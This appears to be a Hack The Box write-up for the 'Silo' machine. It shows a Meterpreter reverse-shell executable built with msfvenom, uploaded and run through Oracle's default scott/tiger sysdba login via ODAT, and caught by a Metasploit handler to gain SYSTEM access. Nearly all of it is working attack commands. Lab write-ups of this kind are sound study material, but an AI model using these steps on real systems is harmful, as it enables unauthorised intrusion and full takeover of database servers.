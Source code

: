 # Alternative way to exploit Silo

Instead of using the manual ways and uploading a shell on the server, this box can also be exploited with **ODAT** and **Metasploit**.
First lets create a _Meterpreter shell_ with **Msfvenom**:
```markdown
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9002 -f exe -o msfshell.exe
```

This creates _msfshell.exe_ which we upload with **ODAT** into _C:/temp/shell.exe_:
```markdown
odat utlfile -s 10.10.10.82 -d XE --sysdba -U scott -P tiger --putFile /temp shell.exe msfshell.exe
```

Before executing the Meterpreter shell, it is mandatory to start the listener on **Metasploit**:
```markdown
use exploit/multi/handler

set Payload windows/x64/meterpreter/reverse_tcp

set LHOST tun0
set LPORT 9002

run
```

Now it can be executed with **ODAT**:
```markdown
odat externaltable -s 10.10.10.82 -d XE --sysdba -U scott -P tiger --exec /temp shell.exe
```

This starts the Meterpreter shell in **Metasploit** and `getuid` shows that we are _NT AUTHORITY/SYSTEM_!
